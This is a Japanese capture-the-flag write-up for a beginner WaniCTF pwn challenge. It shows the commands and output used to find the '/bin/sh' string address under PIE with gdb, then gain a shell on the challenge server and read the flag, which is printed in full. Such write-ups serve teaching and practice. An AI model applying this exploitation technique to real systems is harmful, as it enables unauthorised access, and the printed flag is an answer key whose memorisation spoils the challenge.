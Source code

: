 # binsh address:PWN:pts
nc binsh.wanictf.org 9003  
- 文字列はメモリのどこかに配置されています。  
- strings -tx ./pwn03 | less  

使用ツール例  
- [netcat (nc)](https://github.com/wani-hackase/memo-setup-pwn-utils#netcat)  
- [strings](https://github.com/wani-hackase/memo-setup-pwn-utils#strings)  

セキュリティ保護  
- Full RELocation ReadOnly (RELRO)  
- Stack Smash Protection (SSP)有効  
- No eXecute bit(NX)有効  
- Position Independent Executable (PIE)有効  

[pwn03](pwn03)　　　　[pwn03.c](pwn03.c)  

# Solution
pwn03が配られる。  
実行してみると/bin/shのアドレスをよこせと言われる。  
PIEが有効なので末尾以外が変動する。  
gdbで解析する。  
```bash
$ nc binsh.wanictf.org 9003
The address of "input  " is 0x558370f45010.
Please input "/bin/sh" address as a hex number: ^C
$ nc binsh.wanictf.org 9003
The address of "input  " is 0x564495806010.
Please input "/bin/sh" address as a hex number: ^C
$ ./pwn03
The address of "input  " is 0x7f18f8002010.
Please input "/bin/sh" address as a hex number: ^C
$ ./pwn03
The address of "input  " is 0x7fc502202010.
Please input "/bin/sh" address as a hex number: ^C
$ gdb pwn03
~~~
gdb-peda$ start
~~~
gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 2 results, display max 2 items:
pwn03 : 0x8202020 --> 0x68732f6e69622f ('/bin/sh')
 libc : 0x7fffff1b40fa --> 0x68732f6e69622f ('/bin/sh')
gdb-peda$ c
Continuing.
The address of "input  " is 0x8202010.
Please input "/bin/sh" address as a hex number: ^C
~~~
gdb-peda$ q
```
出力されたアドレスの末尾を20に変更すればよい。  
```bash
$ nc binsh.wanictf.org 9003
The address of "input  " is 0x560a6a0cf010.
Please input "/bin/sh" address as a hex number: 0x560a6a0cf020
Your input address is 0x560a6a0cf020.
Congratulation!
ls
chall
flag.txt
redir.sh
cat flag.txt
FLAG{cAn-f1nd-str1ng-us1ng-str1ngs}
^C
```
flagが得られた。  

## FLAG{cAn-f1nd-str1ng-us1ng-str1ngs}